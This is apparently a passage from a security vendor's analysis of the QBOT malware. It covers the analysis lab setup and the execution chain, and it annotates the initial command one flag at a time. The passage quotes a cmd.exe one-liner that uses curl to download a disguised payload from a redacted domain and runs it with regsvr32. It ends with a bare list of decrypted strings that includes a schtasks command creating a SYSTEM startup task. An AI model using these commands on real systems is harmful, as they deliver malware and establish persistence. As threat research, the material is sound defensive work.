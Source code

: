 > For information on the QBOT configuration extractor and malware analysis, check out our blog posts detailing this:
>
> - [QBOT Configuration Extractor](https://www.elastic.co/security-labs/qbot-configuration-extractor)
> - [QBOT Malware Analysis](https://www.elastic.co/security-labs/qbot-malware-analysis)

## Analysis Environment

We selected a sample for analysis that we could statically and dynamically analyze. This process is commonly used to enrich both types of analysis. For the dynamic analysis, the sample was detonated on a Windows 10 Enterprise VM running the Elastic Endpoint, the Windows and Network Packet Capture Elastic Agent integrations, and an aggressive endpoint logging policy. All events were shipped to our Elastic Cloud cluster and processed through the Elastic Security App. The Elastic Security Endpoint was configured for Alerting and Eventing only (no Prevention). Alerts were generated from Detection Rules in the Security App and directly from the Elastic Security Endpoint default ruleset.

## Execution Chain

The following section will describe the observed execution chain for the Qbot malware sample. This includes events from Initial Execution to Defense Evasion to Persistence to Privilege Escalation.

![Full execution chain of the QBOT malware sample](/assets/images/exploring-the-qbot-attack-pattern/full_process_execution_chain.jpg)

### Initial Execution

The initial execution of the QBOT sample was observed in Elastic’s telemetry data (derived from @proxylife’s [published research](https://twitter.com/pr0xylife/status/1539601609730170882?s=20&t=G-XR7ibeOO0nWCWajKWTKw) on QBOT).

```
**"C:\Windows\System32\cmd.exe" /q /c echo 'Ft' && ping REDACTED[.]com && MD "\\vyr" && curl.exe -o \\vyr\v4QpQt.Nqv.e8xO https://REDACTED[.]net/t8EKnIB/C.png && echo "sxF" && ping REDACTED[.]com && regsvr32 "\\vyr\v4QpQt.Nqv.e8xO"**
```

Note, that the domains in the initial execution appear to be adversary-controlled, not adversary-owned; because of this, we are redacting them from our reporting.

The initial execution command does the following:

- **C:\Windows\System32\cmd.exe** - this executes the Microsoft command interpreter
- **/q** - this switch of **cmd.exe** is to suppress echo output
- **/c** - this switch of **cmd.exe** is to pass a specific command string to the command interpreter
- **echo ‘Ft’** - this prints **‘Ft’** to STDOUT
- **&&** - if the preceding commands were successful, continue and run the next series of commands
- **ping REDACTED[.]com** - this performs a network connection test to an external domain using the Ping command
- **MD “\\vyr”** - this creates the **vyr** directory in the root directory ( \*\*C:\*\* )
- **curl.exe** - this executes the data transfer tool, cURL
- **-o \\vyr\v4QpQt.Nqv.e8xO `https://REDACTED[.]net/t8EKnIB/C.png`** - using the cURL tool, download and save the **C.png** file, from **REDACTED[.]net**, to the **vyr** directory with a filename of **v4QpQt.Nqv.e8xO**
- **echo "sxF"** - this prints **“sxF”** to STDOUT
- **regsvr32 "\\vyr\v4QpQt.Nqv.e8xO"** - uses the Microsoft Register Server ( **regsvr32** ) to execute **v4QpQt.Nqv.e8xO**


[0x0]: ProgramData
[0xc]: /t4
[0x10]: EBBA
[0x15]: netstat -nao
[0x22]: jHxastDcds)oMc=jvh7wdUhxcsdt2
[0x40]: schtasks.exe /Create /RU "NT AUTHORITY\SYSTEM" /SC ONSTART /TN %u /TR "%s" /NP /F